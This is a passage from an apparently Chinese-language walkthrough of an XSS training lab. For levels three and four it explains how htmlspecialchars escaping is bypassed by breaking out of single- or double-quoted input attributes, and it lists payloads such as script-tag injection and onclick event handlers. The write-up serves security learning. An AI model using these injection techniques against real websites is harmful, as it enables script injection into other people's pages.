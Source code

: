 echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>

里面有一个函数.htmlspecialchars($str).

htmlspecialchars()函数特殊字符转换为HTML实体，即：“ < ”，“ > ”，“ ” ”字符均会被过滤

- & （和号）成为 &
- " （双引号）成为 "
- ' （单引号）成为 '
- < （小于）成为 <
- \> （大于）成为 >

<input type=submit name=submit value="搜索"/>

 但在input标签中，value未存在过滤措施，所以嘛这里才可以进行xss攻击

### 第三关

<script>alert(1)</script>

没有找到和<script>alert(1)</script>相关的结果.

回显的位置是有过滤的

"><script>alert(1)</script>

没有找到和"><script>alert(1)</script>相关的结果.

这次input标签也有过滤了

<input type="submit" name="submit" value="搜索">

查看源码发现还是这一句，就可以用第二关的另一种方法

' onclick='alert(1)

然后就可以了

果然input标签是有过滤的

<input name=keyword  value='".htmlspecialchars($str)."'>	

而且value的值是被单引号所包裹的

这也怪不得用双引号一直不行了

### 第四关

源代码里面还是有

<input type="submit" name="submit" value="搜索">

' onclick='alert(1)

这个已经不行了

但是根据上一题的经验这里可能是被双引号所包裹的

" onclick="alert(1)

哈哈居然真的是

源代码是
